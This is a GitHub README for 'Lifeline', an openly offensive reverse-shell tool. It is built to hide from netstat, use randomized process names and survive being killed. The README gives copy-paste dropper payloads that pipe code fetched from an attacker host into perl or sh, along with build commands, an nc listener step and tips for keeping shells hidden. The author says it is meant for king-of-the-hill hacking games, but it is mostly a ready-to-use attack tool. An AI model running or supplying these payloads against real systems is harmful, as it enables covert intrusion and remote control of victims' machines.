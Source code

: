 # Lifeline

Lifeline is a reverse shell that's designed to be hard to detect and hard to kill. It does this by spawning many dormant processes with randomized names that can take over when a shell is killed.

## tl;dr:
![](.github/meme.png)

It is like the cockroach of reverse shells; Not particularly nice to look at, but it will survive almost anything.


## Features
### Pros
 * Easily spawn many reverse shells as background processes
 * Only one process will connect back to your listener, leaving all other processes undetected by `netstat`
 * Random process names
 * Does not use a `pts`
 * Compatible with [pwncat](https://github.com/calebstewart/pwncat)
 * Included `perl` dropper runs [directly from RAM](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html).
### Cons
 * The reverse shell is compiled, making it harder to deploy if your target has a different architecture.


## Dependencies
* GCC
* make
* python3 (used as a basic webserver)

## Usage
### All-In-One
To compile and serve a lifeline binary, use the following command:
```
make serve HOST=x.x.x.x
```
This command will build the binary, create dropper scripts and hosts them using `python3`'s webserver.

```
[~/git/lifeline]~$ make serve HOST=10.0.0.12
=========================================================
  Hosting dropper on http://10.0.0.12:8000...        
  Copy/Paste payloads:                                   
                                                         
 In memory:                                              
  curl http://10.0.0.12:8000/dropper.pl | perl       
  wget -O - http://10.0.0.12:8000/dropper.pl | perl  
                                                         
 Temp file:                                              
  curl http://10.0.0.12:8000/dropper.sh | sh         
  wget -O - http://10.0.0.12:8000/dropper.sh | sh    

 Raw download:
  curl http://10.0.0.12:8000/lineline > lifeline         
  wget http://10.0.0.12:8000/lifeline
=========================================================

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After which you can open a new terminal with a `nc` listener on port `1337` and wait for the callback.  
From the `nc` listener, you can execute commands directly or drop into an `sh` process using the "!shell" command.

### Manual
You can compile lifeline using the following command:
```
make HOST=x.x.x.x
```
This will place a compiled reverse shell in the `build` directory. You can start reverse shells by running the following command on the victim:
```
./lifeline [number of shells]
```


## Make flags:
|Flag      |                                                            |
|----------|------------------------------------------------------------|
|`HOST`    | Listener IP address.                                       |
|`PORT`    | Listener port, defaults to `1337`.                         |
|`NUM`     | Number of processes started by a dropper, defaults to `10`.|
|`PY_PORT` | Port used for Python http server, defaults to 8000.        |


## Practicalities
* Since the lifeline processes are spawned in quick succession, they will likely have sequential `PID`'s. Spawning a small amount of new shells manually will yield better results than spawning 100 shells at once.
* By spawning a few lifelines without opening a listener, you can keep the processes hidden until your other shells are killed.

## F.A.Q.
### Q; Does this provide an persistence against reboots?
No, I created this program mostly for "KOTH"-like hacking games, where reboots aren't really an issue.  
### Q; Why is the shell so bad?
The default "shell" is actually just a bunch of `popen` calls. You should can either:
1. Type "!shell" to drop into a shell.
1. Use [pwncat](https://github.com/calebstewart/pwncat) as a listener.
